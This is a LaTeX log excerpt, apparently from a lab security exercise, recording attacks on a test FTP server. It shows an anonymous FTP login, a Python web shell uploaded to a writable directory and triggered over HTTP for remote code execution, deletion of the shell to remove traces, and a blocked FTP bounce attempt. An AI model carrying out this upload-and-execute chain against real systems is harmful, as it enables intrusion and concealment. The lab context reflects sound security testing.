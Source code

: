\begin{logbox}
=================================================================
  [EXPLOIT 1] FTP Anonymous Authentication & Directory Enumeration
=================================================================
  Target Host : 192.168.0.116:21 (LabFTP Server)
  Credentials : anonymous / anon@lab
  Return Code : 230 User logged in, proceed.
  Status      : SUCCESS [OK]
-----------------------------------------------------------------
  Remote Directory Listing (PASV -> LIST):
    -rw-r--r-- 1 ftp ftp 232 Jan 01 00:00 index.html
    drwxr-xr-x 1 ftp ftp   0 Jan 01 00:00 pub
    drwxr-xr-x 1 ftp ftp   0 Jan 01 00:00 uploads (Write Permission Confirmed)
=================================================================

=================================================================
  [EXPLOIT 2] FTP Write -> Web Shell Upload -> HTTP CGI RCE
=================================================================
  Target Host : 192.168.0.116 (Ports 21 [FTP] + 80 [HTTP])
  Payload     : uploads/shell.py
  Status      : SUCCESS [OK] (Remote Code Execution Verified)
-----------------------------------------------------------------
  Execution Workflow Trace:
    [OK] FTP Login       : 230 User logged in.
    [OK] FTP CWD         : Changed to /uploads directory.
    [OK] Write Check     : PASV write permission validated.
    [OK] Script Upload   : STOR uploads/shell.py -> 226 Transfer complete.
    [OK] HTTP Trigger    : GET /uploads/shell.py?cmd=whoami HTTP/1.0
  Server Execution Output:
    ==================================================
    WEB SHELL - SANDBOXED EXECUTION
    ==================================================
    Host OS      : Windows 11
    Command key  : whoami
    Executed     : whoami
    --------------------------------------------------
    homed01\turjo
    --------------------------------------------------
    Status: SUCCESS
    ==================================================
  Forensic Cleanup:
    [OK] FTP DELE uploads/shell.py -> 250 File deleted successfully.
=================================================================

=================================================================
  [EXPLOIT 3] RFC 959 FTP Bounce Attack Socket Relay Mitigation
=================================================================
  Control Channel: 192.168.0.116:21
  Pivot Target   : 192.168.0.116:80 (HTTP Port Relay)
  Command Issued : PORT 192,168,0,116,0,80
  Observed Return: 500 Connection error: [WinError 10053]
  Status         : FAILED (MITIGATED BY HOST OS) [X]
-----------------------------------------------------------------
  Mitigation Root Cause:
    An established connection was aborted by the software in your
    host machine. The Windows Filtering Platform (WFP) stateful
    engine detected and blocked cross-interface socket relay.
=================================================================
\end{logbox}

